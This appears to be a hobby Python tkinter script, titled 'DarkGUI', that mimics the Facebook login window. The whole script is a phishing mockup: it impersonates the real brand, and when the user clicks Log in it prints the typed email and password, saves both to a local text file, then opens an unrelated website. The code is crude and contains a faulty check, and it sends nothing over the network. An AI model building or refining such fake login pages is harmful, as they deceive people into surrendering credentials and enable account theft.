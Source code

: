 # DarkGUI
from tkinter import *
import tkinter.messagebox as tmsg

root = Tk()
root.geometry('300x500')
root.resizable(False, False)
# root.configure(bg='grey')
def obs():
    if a.get() !=10 and b.get() != '2003':
        tmsg.askretrycancel('', 'Incorrect password or email ')
    else:
        print(f'entered number or email is {a.get()}')
        print(f'entered password is {b.get()}')
        tmsg.showinfo('','Congrats you have successfully eligible to visit facebook' )
        import webbrowser
        webbrowser.open("https://patatap.com")
                        # "#https://www.facebook.com")"https://patatap.com"

        with open('file1.txt', 'w') as f:
            f.write(f'{a.get()} and {b.get()}')
        exit()


Label(root, text='Facebook', font='a 13').pack(side=TOP)
Label(root, text='Mobile number or email', font='a 10 bold').place(y=100)

a = Entry(root, textvariable='inf', width=49, border=2)
a.place(y=130)

Label(root, text='Password', font='a 10 bold').place(y=160)
b = Entry(root, textvariable='pswd', width=49, border=2)
b.place(y=190)

Button(root, text='Log in', font='a 10 bold', fg='white', bg='blue', width=36, command=obs).place(y=220)
Button(root, text='Forgotten password?', fg='blue', bg='white', border=0, font='a 10').place(y=251)

aa = Label(root, text='or', font='a 10 bold')
aa.place(x=130, y=280)

Button(root, text='Create new account', fg='white', bg='green', width=16, font='a 11 bold').place(x=60, y=300)

Label(root, text='English(US)', font='a 9').place(y=350)
mainloop()

